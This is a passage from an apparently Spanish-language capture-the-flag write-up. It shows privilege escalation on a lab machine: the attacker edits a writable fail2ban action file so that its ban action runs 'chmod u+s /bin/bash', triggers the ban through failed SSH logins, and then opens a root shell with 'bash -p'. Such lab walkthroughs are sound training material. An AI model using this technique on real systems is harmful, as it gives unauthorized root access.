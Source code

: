 ```php
fred@biteme:~$ ls -la /etc/fail2ban/action.d/iptables-multiport.conf
-rw-r--r-- 1 fred root 1420 Dec  9 18:06 /etc/fail2ban/action.d/iptables-multiport.conf
nano /etc/fail2ban/action.d/iptables-multiport.conf
```

Ahora inyectaremos nuestro comando para cambiar los permisos de la `/bin/bash` con el siguiente comando `actionban=/bin/bash -c 'chmod u+s /bin/bash'`. 

```php
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban=/bin/bash -c 'chmod u+s /bin/bash'

# Option:  actionunban
```
### Usuario: root

Ahora para que se ejecute el el comando que inyectamos, realizaremos varios intentos fallidos al logarnos por ssh.

![20231209133046.png](20231209133046.png)

Esperamos unos minutos para iniciar sesión y ejecutamos una `bash -p` 

![20231209133133.png](20231209133133.png)

¡VAMOS!

Happy hacking :)